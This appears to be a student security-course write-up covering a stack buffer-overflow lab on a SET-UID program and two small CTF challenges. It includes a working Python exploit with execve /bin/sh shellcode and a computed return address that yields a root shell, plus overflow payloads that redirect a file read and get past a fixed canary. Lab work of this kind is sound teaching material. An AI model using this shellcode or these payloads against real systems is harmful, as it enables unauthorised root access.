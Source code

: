 # Week 5

## Task 1
After compiling using `make`, we executed the a32.out or a64.out:

```bash
$ ./a32.out
$ ./a64.out
```


and a new shell appeared in the terminal.

![a32.out execution](../Week5/img/task_1_1.PNG)

![a64.out execution](../Week5/img/task_1_2.PNG)



## Task 2 and 3

In this task, we use this vulnerable SET-UID root program to gain access to the root shell. Since, we have disabled Address Space Layout Randomization, we know that our process will be stored  in  around the same memory always in  the  stack. So in order to find the address of the running program in the memory, we compile the program in debug mode. Debugging will help us run our desired program. 

So,  we  first  compile  the  program  in  the  debug  mode (-g  option),  with  the  StackGuard  counter-measure disabled and Stack executable and then run the program in debug mode using gdb:

![task_3_1](../Week5/img/task_3_1.png)

In gdb, we set a breakpoint on the bof function using b bof, and then start executing the program:

![task_3_2](../Week5/img/task_3_2.png)

The program stops inside the bof function due to the breakpoint created. The stack frame values for this function will be of our interest and will be used to construct the badfile contents. Here, we print out the ebp and buffer values, and also find the difference between the ebp and start of the buffer in order to find the return address value’s address. The following screenshot shows the steps:

![task_3_3](../Week5/img/task_3_3.png)

Here, we see that the frame pointer is `0xffffcf88` and hence the return address must be stored at `0xffffcf88 + 4`, and the first address we can jump to is `0xffffcf88 + 8`. Also, in order for the return address to point at our code, we need to know the location to store the return address in the input so  that it is stored in the return address  field  in  the  stack.  This  can  be found out by finding the difference between the return address and buffer start address, because our input is copied to the buffer from the start. We also know that return address will be 4 bytes above where the ebp points.

In the next step, we modify the exploit.py file to enter the new return address:

```python=
#!/usr/bin/python3
import sys
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
##################################################################

# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffcf1c + start
offset = (0xffffcf88 - 0xffffcf1c) + 4

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)


```

Next, we first make the python program executable and run the exploit.py file to generate the badfile. Then we run the vulnerable SET-UID program that uses this badfile as input and copies the contents of the file  in the stack, resulting in a buffer overflow. The `#` sign indicates that we have successfully obtained the root privilege by entering into the root shell. The effective user ID is seen to be that of the root (0): 

![task_3_4](../Week5/img/task_3_4.png)

Hence, we have successfully performed the buffer overflow attack and gained root privileges.

## CTF Challenge 1

First, we run `checksec` on the executable to analyse the file protections:

![ctf_c1_1](../Week5/img/ctf_c1_1.PNG)

As we can see, the protections are what was expected.

Reading the [main.c](../Week5/CTF/Semana5-Desafio1/main.c), we noted that:
- The file with name **mem.txt** is read by the program
- We can control what file is read by overflowing the ``buffer`` array. We write trash on the first 20 positions of the array, then we write the filename that we want the program to read (in this case, flag.txt), and finally we terminate the string with **\0**. In our case, the injected string was `"aaaaaaaaaaaaaaaaaaaaflag.txt\0"`

After identifying the vulnerability, we programmed the missing code on the [exploit](../Week5/CTF/Semana5-Desafio1/exploit.py) and executed it.

![ctf_c1_2](../Week5/img/ctf_c1_2.PNG)

## CTF Challenge 2

First, we run `checksec` on the executable to analyse the file protections:

![ctf_c2_1](../Week5/img/ctf_c1_1.PNG)

As we can see, the protections remainded the same
Reading the [main.c](../Week5/CTF/Semana5-Desafio1/main.c), we noted that:
- The code is similar to the one on the previous challenge. However, this version has a "canary" **0xfefc2122** between the buffer and the filename
- This protection doesn't mitigate the attack. We just need to write the canary between the buffer and the filename on the injected string. The new string to inject is represented by this line of code:

```python 
canary = 0xfefc2122
payload = bytes("a"*20 , 'utf-8') + canary.to_bytes(4, "little") + bytes("flag.txt\0" , 'utf-8')
```

The full code is on [exploit.py](../Week5/CTF/Semana5-Desafio2/exploit.py). When we run the exploit.py file, we are greeted with the flag


![ctf_c1_2](../Week5/img/ctf_c2_2.PNG)
